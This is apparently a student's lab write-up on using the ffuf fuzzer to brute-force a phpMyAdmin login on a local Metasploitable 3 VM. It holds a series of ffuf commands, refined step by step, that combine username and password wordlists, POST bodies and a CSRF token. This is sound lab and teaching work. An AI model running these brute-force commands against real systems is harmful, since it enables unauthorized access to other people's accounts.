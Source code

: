 No gcc-style output on the build process, probably needs some flags, but a small reassurance on build success would be nice. The process is fast though, I used the ‘time’ command to get some output-

I have juiceshop running on my Kali VM’s localhost and a “fresh” Ubuntu 14.04 Metasploitable 3 running in VirtualBox. Btw not giving MS3 full Internet access makes it boot awfully slow. I installed it with vagrant, and there is a Windows version as well, but it is big as they come, and downloading it takes ages…

On Metasploitable 3, there is a phpmyadmin login screen available:

Screenshot_2020-05-13_09-17-39

I have Foxyproxy running on the Firefox, and I’m using mitmproxy to watch the traffic. Check Tero’s installation instructions of how to set those up!

I’ll first examine the POST data when login is attempted.

Screenshot_2020-05-13_09-35-12

Lets test the fuzzer then on this form. I’ll try admin:<password> first, and grab a classic list of passwords.

$ ./ffuf -w /usr/share/wordlists/rockyou.txt \
-d "pma_username=admin\&pma_password=FUZZ"   \
-u http://msp3/phpmyadmin/index.php
I fail to set up mitmproxy, so I turn to wireshark. Here is what the traffic should look like after sending normal login via web browser:

Screenshot_2020-05-13_15-54-37

And here is what goes after the command:

Screenshot_2020-05-13_15-57-33

Something has to be done. Note the User-Agent 🙂 What I remember from class discussion, the Content-Type has to be set. That goes into POST request header (-H). The ffuf syntax is very close to curl, so there is some familiarity here.

$ ./ffuf -w /usr/share/wordlists/rockyou.txt          \
-H "Content-Type: application/x-www-form-urlencoded"  \
-d "pma_username=admin\&pma_password=FUZZ"            \
-u http://msp3/phpmyadmin/index.php
Getting closer, that & escape character is apparently not needed in username.

Screenshot_2020-05-13_16-03-37

./ffuf -w /usr/share/wordlists/rockyou.txt:PASS      \
-H "Content-Type: application/x-www-form-urlencoded" \
-d "pma_username=root&              \
pma_password=FUZZ&                  \
server=1&                           \
token=22fdac6e41393914b6286477edecd249"     \
-u http://msp3/phpmyadmin/index.php
Now the traffic looks right. I would like to fuzz usernames, so lets plug a list there too. I’ll try to format the syntax to be descriptive:

$ ./ffuf -u http://msp3/phpmyadmin/index.php             \
-w /usr/share/wordlists/metasploit/unix_users.txt:USER   \
-w /usr/share/wordlists/rockyou.txt:PASS                 \
-H "Content-Type: application/x-www-form-urlencoded"     \
-d "pma_username=USER&                                   \
    pma_password=PASS&                                   \
    server=1&                                            \
    token=22fdac6e41393914b6286477edecd249"              \
-fw 1,877
Also filtered out 1 and 877 word responses, but thats a lot of combinations… and should I follow redirects? I have to test with a setup that I know will succeed.
